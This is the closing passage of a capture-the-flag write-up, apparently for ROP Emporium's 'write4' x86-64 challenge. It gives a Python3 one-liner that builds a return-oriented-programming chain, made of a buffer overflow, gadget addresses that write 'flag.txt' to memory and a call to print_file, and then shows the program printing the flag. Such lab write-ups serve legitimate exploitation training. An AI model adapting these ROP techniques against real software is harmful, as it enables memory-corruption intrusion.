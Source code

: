 #### Python3 One-Line Exploit
Again, Python3 prints byte strings differently to Python2, so I used the `sys.stdout.buffer.write()` function from the `sys` module.

`python3 -c 'import sys; data_addr = b"\x28\x10\x60\x00\x00\x00\x00\x00"; print_file = b"\x10\x05\x40\x00\x00\x00\x00\x00"; mov_gadget = b"\x28\x06\x40\x00\x00\x00\x00\x00"; pop_gadget = b"\x90\x06\x40\x00\x00\x00\x00\x00"; pop_rdi = b"\x93\x06\x40\x00\x00\x00\x00\x00"; sys.stdout.buffer.write(b"A"*40 + pop_gadget + data_addr + b"flag.txt" + mov_gadget + pop_rdi + data_addr + print_file)'`

Running the command, I got the flag:

```
$ python3 -c 'import sys; data_addr = b"\x28\x10\x60\x00\x00\x00\x00\x00"; print_file = b"\x10\x05\x40\x00\x00\x00\x00\x00"; mov_gadget = b"\x28\x06\x40\x00\x00\x00\x00\x00"; pop_gadget = b"\x90\x06\x40\x00\x00\x00\x00\x00"; pop_rdi = b"\x93\x06\x40\x00\x00\x00\x00\x00"; sys.stdout.buffer.write(b"A"*40 + pop_gadget + data_addr + b"flag.txt" + mov_gadget + pop_rdi + data_addr + print_file)'

write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

**Success!** Both the x86 and x86-64 challenges have been solved!